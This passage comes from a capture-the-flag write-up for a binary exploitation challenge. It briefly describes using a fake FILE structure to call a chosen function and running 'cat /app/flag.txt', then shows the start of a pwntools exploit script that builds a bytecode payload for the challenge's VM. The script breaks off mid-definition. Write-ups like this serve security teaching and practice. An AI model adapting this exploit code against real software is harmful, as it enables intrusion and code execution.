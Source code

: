 then it will called our function with arguments  set in the fake FILE *structure..

we will do a simple `'cat /app/flag.txt'` to dump the flag... and that's all...

![gotshell](./pics/gotshell.gif)

Maybe you understand nothing of my explanation..

And I'm sorry for this :)

But you can't still read the code.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import requests

context.update(arch="amd64", os="linux")
context.terminal = ['xfce4-terminal', '--title=GDB-Pwn', '--zoom=0', '--geometry=128x98+2900+0', '-e']
context.log_level = 'error'

exe = ELF('./vm_patched')
libc = ELF('./libc.so.6')

# init
pos = 0
payload = ''

def switchl():
  global pos
  global payload
  payload += p8(0x00) + p8(0xbb) + p16(pos+8+1)+p8(0)*4
  pos += 8

def mode():
  global pos
  global payload
  payload += p8(0x09) + p8(0x00) + p8(0xbb) + p8(0)
  pos += 4

def jmp_reg(val):
  global pos
  global payload
  payload += p8(val) + p8(0x00) + p8(0xbb) + p8(0)
  pos += 4

def and_dst_src_imm(dst,src,imm):
  global pos
  global payload
```